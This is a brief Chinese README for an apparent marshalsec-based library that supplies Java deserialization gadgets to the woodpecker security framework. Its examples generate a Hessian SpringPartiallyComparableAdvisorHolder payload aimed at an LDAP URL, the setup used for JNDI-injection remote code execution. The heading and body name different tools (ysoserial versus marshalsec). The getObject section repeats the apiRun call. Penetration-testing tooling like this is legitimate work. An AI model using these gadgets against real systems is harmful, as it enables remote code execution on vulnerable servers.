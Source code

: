 # ysoserial-for-woodpecker

## 0x01 简介
`marshalsec-for-woodpecker`是基于 [marshalsec](https://github.com/mbechler/marshalsec)开放第三方调用api ,为woodpecker框架定制开发的各类反序列化gadget集成库。

## 0x02 api调用


#### 2.1 public Object getObject(String gadgetName,String[] gadgetArgs)

返回gadget对象

```
new Hessian().apiRun("SpringPartiallyComparableAdvisorHolder",new String[]{"ldap://127.0.0.1:138/obj"})
```

#### 2.2 public byte[] apiRun(String gadgetName,String[] gadgetArgs)

返回gadget对象，序列化之后的数据

```
new Hessian().apiRun("SpringPartiallyComparableAdvisorHolder",new String[]{"ldap://127.0.0.1:138/obj"})
```